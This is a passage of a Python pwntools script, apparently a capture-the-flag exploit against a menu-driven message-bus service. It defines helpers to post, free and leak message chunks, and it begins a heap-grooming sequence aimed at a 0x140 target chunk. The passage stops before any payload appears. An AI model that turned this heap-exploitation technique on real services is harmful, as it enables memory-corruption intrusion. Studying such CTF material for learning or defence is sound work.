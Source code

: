 ```py
    r.sendline(msg)

    if pwn:
        return

    data = r.recvuntil(b'\n> ')

    m = re.match(b'(.)*Clearing msg \((\d+) : (\d+)\)', data, re.DOTALL)
    if m:
        if m.group(1):
            log.warning(m.group(0).decode())

        return (int(m.group(2)), int(m.group(3)))


def handle(startracker_id):
    if startracker_id != 1 and startracker_id != 2:
        log.error('Invalid startracker_id: %d' % startracker_id)
        return
    if startracker_id == 1:
        r.sendline(b'2')
    elif startracker_id == 2:
        r.sendline(b'3')

    STOP = b'\n1: Post message on bus'
    data = r.recvuntil(STOP)
    data = data[:-len(STOP)]

    if b'Testing Message\n' in data:
        return bytearray(map(lambda x: int(x, 16), re.findall(rb'0x(..)', data)))

    r.recvuntil(b'> ')
    return data


def alloc(pipe_id, data, pwn=False):
    post_msg(100, pipe_id, b'0', data, pwn)


def alloc_hex(pipe_id, data):
    post_msg(100, pipe_id, b'1', data)


def broadcast(data):
    post_msg(100, 0xff, b'0', data)


def free(pipe_id):
    return handle(pipe_id + 1)


def main():
    global r
    r = conn()

    r.recvuntil(b'\n> ')

    # Fill pipe 0
    for _ in range(10):
        alloc(0, b'-')

    # Allocate a chunk of sz 0x140 (target chunk)
    # this will get stored freed in the pipe 1
```